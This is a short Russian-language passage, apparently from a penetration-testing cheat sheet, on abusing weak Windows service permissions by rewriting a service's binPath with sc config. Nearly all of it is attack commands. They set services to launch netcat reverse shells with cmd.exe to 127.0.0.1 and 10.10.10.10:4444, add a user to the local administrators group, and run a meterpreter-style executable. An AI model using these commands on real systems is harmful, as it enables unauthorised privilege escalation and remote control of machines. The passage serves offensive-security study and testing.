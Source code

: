 ##  **Изменить binPath службы**

Если группа «Прошедшие проверку» имеет **SERVICE_ALL_ACCESS** в службе, она может изменить двоичный файл, который выполняется службой. Чтобы изменить его и выполнить **nc** , вы можете сделать:

```
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config <Service_Name> binpath= "net localgroup administrators username /add"

sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

```
sc create newservicename binPath= "C:\windows\system32\notepad.exe"

sc start newservicename
```